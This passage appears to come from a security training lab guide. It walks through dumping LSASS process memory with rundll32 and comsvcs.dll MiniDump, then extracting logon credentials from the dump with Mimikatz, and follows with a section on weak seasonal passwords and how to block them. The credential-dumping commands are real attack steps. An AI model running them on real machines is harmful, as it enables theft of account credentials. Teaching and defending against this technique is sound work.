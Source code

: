     - For example, in our test enviornment, the PID for LSASS was `1372`. Thus, we would want to run:
    
        ```
        rundll32.exe c:\Windows\system32\comsvcs.dll, MiniDump 1372 C:\windows\temp\lsass.dmp full
        ```

1. In Mimikatz, and this can be done "offline", load the LSASS dump you obtained:
    
    ```
    mimikatz # sekurlsa::minidump lsass.dmp
    ```
    
    Example output if you run in the range (i.e. not offline, but rather point Mimikatz to the file you dumped):
    
    ```
    sekurlsa::minidump C:\windows\temp\lsass.dmp
    
    Switch to MINIDUMP : 'C:\windows\temp\lsass.dmp'
    ```

1. Now that you have loaded the dumped LSASS memory space, you can now run Mimikatz against the dump file:

    ```
    mimikatz # sekurlsa::logonPasswords full
    ```

----

## BONUS 2: Weak Passwords

That Administrator account password (`Summerishere@2023!`) is weak, right? You might be surprised how often this type of password is found in large-scale environments. Back in 2015/16, the Iranian-based APT33 group capitalized on the prevalence of passwords that include the season or month + year in attacks against the US energy sector. These attacks proved highly successful, yet nearly a decade later, we still see these passwords in use in organizations around the world.

For a daily-updated list of insecure passwords that follow this schema, i.e. passwords that you and your users _should avoid at all costs_, see:
[weakpasswords.net](http://weakpasswords.net/).

### Prevention

If you use Azure AD, you can use [Azure AD Password Protection](https://for528.com/azure-pass) to deny your users the ability to include strings such as months, seaons, and years in their passwords.

If you are fully on-prem, you can begin by working with the [passfilt.dll options](https://for528.com/passfilt). This is a beginning step. If you want tighter control over passwords, _which you do_, you can look into commercial replacement for `passfilt.dll` or better yet review the open source [PassFiltEx project](https://for528.com/passfiltex).
